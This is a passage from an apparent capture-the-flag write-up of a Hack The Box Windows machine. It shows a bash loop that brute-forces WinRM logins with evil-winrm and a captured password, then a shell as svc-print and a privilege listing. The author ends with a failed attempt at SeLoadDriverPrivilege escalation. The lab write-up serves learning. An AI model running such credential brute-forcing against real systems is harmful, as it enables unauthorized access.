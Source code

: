 Next I Search for other places where I could use credentials. Doing further nmap scans on higher ports I see 5985 which is the WinRm service. To exploit that we use evil-winrm.

We have the password but we still don't have the username so lets use the username list we got from rpcclient and brute force again. I create another simple bash script for this.

{%highlight text%}
#!/bin/bash
while read line; do echo $line;evil-winrm -i 10.10.10.193 -u $line -p '$fab@s3Rv1ce$1'; done < users
{%endhighlight%}

I let the script run and when I see a login shell I just press ctrl+c. We can login with the user svc-print. You can now find the user flag inside the Desktop of this user.

{%highlight text%}
evil-winrm -i 10.10.10.193 -u svc-print
Enter Password: 

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc-print\Documents> whoami
fabricorp\svc-print
{%endhighlight%}

Doing basic enumeration I find a test directory which was reset every two minutes. Next I found something interesting inside the current user privileges.

{%highlight text%}
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeLoadDriverPrivilege         Load and unload device drivers Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
{%endhighlight%}

If you think I know what any of this means **YOU** Sir! would be dead wrong! I don't know what any of this means. Trick is to just copy paste these terms in the google search bar and read up about any exploit they may have. I find an exploit for the SeLoadDriverPrivilege. 

[Link to the article](https://www.tarlogic.com/en/blog/abusing-seloaddriverprivilege-for-privilege-escalation/)

I read up. I was able to understand parts of the exploit. I think this maybe a little bit too hard for me with my current knowledge of inner workings of windows. The hilarious part is that not only was I not able to understand the exploit I was not able to implement it either. So this machine was able to beat me this time. After this I think I will need some easy linux boxes to gain my lost confidence. 